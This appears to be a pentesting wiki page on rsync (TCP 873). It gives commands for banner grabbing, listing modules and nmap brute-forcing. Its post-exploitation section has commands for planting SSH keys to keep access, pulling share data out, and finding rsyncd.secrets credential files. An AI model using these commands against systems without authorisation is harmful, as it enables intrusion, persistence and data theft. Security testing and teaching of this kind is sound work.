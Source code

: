 ```yaml
---
description: Pentesting RSync - TCP Ports 873
---
```


# Rsync

## Theory

**Rsync** is a utility for efficiently [transferring](https://en.wikipedia.org/wiki/File\_transfer) and [synchronizing](https://en.wikipedia.org/wiki/File\_synchronization) [files](https://en.wikipedia.org/wiki/Computer\_file) between a computer and an external hard drive and across network. By default it run on port TCP 873

## Practice

### Enumeration

{% tabs %}
{% tab title="Connect to Rsync" %}
To initiate a connection with an rsync server, use the [rsync](https://rsync.samba.org/) command followed by the rsync URL.

```bash
# The URL format is `[rsync://][user@]host[:port]/module.``
rsync rsync://user@target_host/
```
{% endtab %}

{% tab title="Banner Grabbing" %}
You can use `Netcat` to find out what service is running and its version by looking at the welcome message it shows when you connect. This method is called Banner Grabbing.

```bash
nc -nv <IP> 873

# Expected output format
@RSYNCD: version
```
{% endtab %}

{% tab title="Modules" %}
You can use `Nmap` to check if there's an Rsync server on a target host like this:

```bash
nmap -p 873 <IP>
```

We can then **enumerate modules**. Thus is a crucial enumeration phase to understand the structure of the target rsync module and finding misconfigurations or sensitive information.

```bash
nmap -sV --script "rsync-list-modules" -p 873 target_host
```
{% endtab %}

{% tab title="Shared Folders" %}
Rsync modules represent directory shares and may be protected with a password. To list these modules:

```bash
rsync target_host::
```

For detailed enumeration of a specific module to see files and permissions:

```bash
rsync -av --list-only rsync://target_host/module_name
```
{% endtab %}
{% endtabs %}

### Exploiting

{% tabs %}
{% tab title="Bruteforce" %}
Be aware that some shares might be restricted to specific **credentials**, indicated by an **"Access Denied"** message. We can try to bruteforce the password using following command.

```bash
nmap -sV --script rsync-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 873 <IP>
```
{% endtab %}

{% tab title="Misconfigured Modules" %}
Modules without proper authentication can be accessed by unauthorized users. This vulnerability allows attackers to read, modify, or delete sensitive data.

If a module is writable, and you have determined its path through enumeration, you can upload malicious files, potentially leading to remote command execution or pivoting into the network.
{% endtab %}
{% endtabs %}

### Post-Exploitation <a href="#post-exploitation" id="post-exploitation"></a>

{% tabs %}
{% tab title="Persistence" %}
Upload artifacts like modified scripts or binaries to maintain access:

```bash
rsync -av home_user/.ssh/ rsync://user@target_host/home_user/.ssh
```
{% endtab %}

{% tab title="Data Exfiltration" %}
Sensitive data identified during enumeration can be exfiltrated using rsync:

#### From Remote to Local&#x20;

We can sync a remote folder with a local folder.

```bash
rsync -avz rsync://<IP>:873/share_name /local/directory/
# OR
rsync -avz <IP>::share_name /local/directory/
```

#### From Local to Remote\*

We can sync our local folder with a remote folder.

```bash
rsync -av /local/directory/ <IP>::share_name
# OR
rsync -av /local/directory/ rsync://<IP>:873/share_name 
```
{% endtab %}

{% tab title="rsyncd.conf" %}
To locate the `rsyncd` configuration file and potentially find a secrets file containing usernames and passwords for `rsyncd` authentication, use the following command:

```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://hackviser.com/tactics/pentesting/services/rsync" %}

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync" %}
\*
{% endembed %}

{% embed url="https://exploit-notes.hdks.org/exploit/network/rsync-pentesting/" %}
